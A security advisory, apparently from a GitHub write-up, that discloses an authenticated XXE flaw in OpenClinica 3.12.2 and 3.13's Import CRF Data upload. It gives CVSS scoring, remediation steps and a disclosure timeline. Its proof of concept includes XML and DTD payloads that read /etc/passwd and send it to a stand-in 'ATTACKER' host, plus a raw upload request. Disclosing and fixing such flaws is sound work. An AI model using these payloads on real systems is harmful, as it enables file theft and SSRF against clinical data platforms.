

# OpenClinica Import CRF Data – XXE file disclosure

An XML External Entity issue in **Import CRF Data** discloses OS files via error-based XXE.

---

## Product / Versions
- OpenClinica Community Edition  
  - **3.13** – Changeset `74f4df3481b6` (2017-02-28)  
  - **3.12.2** – Changeset `347dcfca3d17` (2016-11-21)

## Affected area
`Tasks → Import CRF Data` (multipart upload parameter: `xml_file`)

## Auth
Authenticated (tested as **Data Manager** and **Clinical Research Coordinator**)

## Summary
The XML parser processes external entities. A crafted XML can read local files (e.g. `/etc/passwd`) and reflect their contents back in the UI error block, confirming **XXE** with file disclosure and potential SSRF.

## Screenshot


## PoC

**evil11.xml**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe SYSTEM "http://ATTACKER/malicious.dtd">
<xxe>test</xxe>
```

**malicious.dtd**
```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY xxe SYSTEM 'http://ATTACKER/leak?d=%file;'>">
%all;
```

## Raw request (abridged)
```
POST /OpenClinica/ImportCRFData?action=confirm HTTP/1.1
Host: <target>:8080
Content-Type: multipart/form-data; boundary=----X

------X
Content-Disposition: form-data; name="xml_file"; filename="evil11.xml"
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE xxe SYSTEM "http://ATTACKER/malicious.dtd">
<xxe>test</xxe>
------X--
```

## Impact
- Read arbitrary local files as the application user (secrets, config, keys)
- Potential SSRF by pointing entities at internal HTTP services

## Severity (suggested)
**CVSS v3.1:** `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N` → **7.1 High**  
**CWE:** 611 (XXE)

## Remediation
- Disable DTD/XXE on the XML parser: `disallow-doctype-decl=true`, `external-general-entities=false`, `external-parameter-entities=false`, `FEATURE_SECURE_PROCESSING=true`.
- Validate uploaded XML against a strict schema server-side.
- Minimise file permissions of the OpenClinica/Tomcat user.

## Timeline
- 2025-10-09: Discovered and reproduced on 3.12.2 and 3.13 images.
- 2025-10-09: Attempted to contact vendor, no response.
- 2025-10-23: Reported to VulDB.
